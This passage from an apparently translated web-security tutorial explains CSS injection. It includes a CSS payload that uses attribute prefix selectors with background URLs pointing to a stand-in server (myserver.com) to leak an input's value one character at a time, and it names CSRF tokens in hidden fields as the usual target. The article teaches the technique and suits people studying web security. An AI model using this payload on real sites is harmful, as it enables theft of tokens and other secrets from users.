 Some similar selectors include:

1. `input[value^=a]` (prefix) selects elements with values starting with `a`.
2. `input[value$=a]` (suffix) selects elements with values ending with `a`.
3. `input[value*=a]` (contains) selects elements with values containing `a`.

The second feature is the ability to make requests using CSS, such as loading a background image from a server, which essentially sends a request.

Let's say we have the following content on a webpage: `<input name="secret" value="abc123">`. If I can inject CSS, I can write the following:

``` css
input[name="secret"][value^="a"] {
  background: url(https://myserver.com?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://myserver.com?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://myserver.com?q=c)
}

//....

input[name="secret"][value^="z"] {
  background: url(https://myserver.com?q=z)
}
```

What will happen?

Since the first rule successfully targets the corresponding element, the background of the input will be an image from a server, causing the browser to send a request to `https://myserver.com?q=a`.

Therefore, when the server receives this request, it knows that the "value" attribute of the input starts with the letter "a," successfully stealing the first character.

This is why CSS can be used to steal data. By combining attribute selectors with the ability to load images, the server can determine the attribute value of a specific element on the webpage.

Now that we have confirmed that CSS can steal attribute values, let's address two questions:

1. What can be stolen?
2. You only demonstrated stealing the first character, how can the second character be stolen?

Let's start with the first question. What can be stolen? Usually, sensitive data, right?

The most common target is the CSRF token. If you are not familiar with CSRF, I will discuss it in a future article.

In simple terms, if the CSRF token is stolen, it can lead to CSRF attacks. Just think of this token as something important. Typically, the CSRF token is stored in a hidden input field, like this:

``` html
<form action="/action">
  <input type="hidden" name="csrf-token" value="abc123">
  <input name="username">
  <input type="submit">
</form>
```
